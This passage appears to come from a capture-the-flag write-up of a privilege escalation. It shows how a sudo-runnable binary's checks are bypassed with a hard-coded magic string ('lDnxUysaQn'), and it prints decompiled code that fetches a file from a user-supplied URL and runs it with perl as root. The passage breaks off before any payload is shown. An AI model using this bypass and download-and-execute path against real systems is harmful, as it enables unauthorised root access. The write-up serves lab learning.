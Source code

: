 `$ sudo /usr/bin/binary 1 1`

now the `param_1` variable will be equal to 3.


Second if: checks if we're running the program as root which we are.


Third if: in summary it checks if the second argument `param_2` is equal to the string "lDnxUysaQn". I'll show you why: 

```
#include <stdio.h>
#include <string.h>

int main(int param1, long param2)
{
    printf("%s", *(char**)(param2 + 0x10));
}
```

```
$ ./a.out AA BB
BB
```

So we can see that `param_2 + 0x10` is the second argument. So I we run the program with the "lDnxUysaQn" string it should bypass the if.

```

smorton@investigation:/tmp/test1$ sudo /usr/bin/binary 0 lDnxUysaQn
Running...                                                        
Exiting...

```

Great, part 1 done.

#### Part 2: Understanding the curl functions


```

  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  curl = curl_easy_init();
  curl_easy_setopt(curl,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(curl,0x2711,__stream);
  curl_easy_setopt(curl,0x2d,1);
  iVar2 = curl_easy_perform(curl);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(curl);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }

```
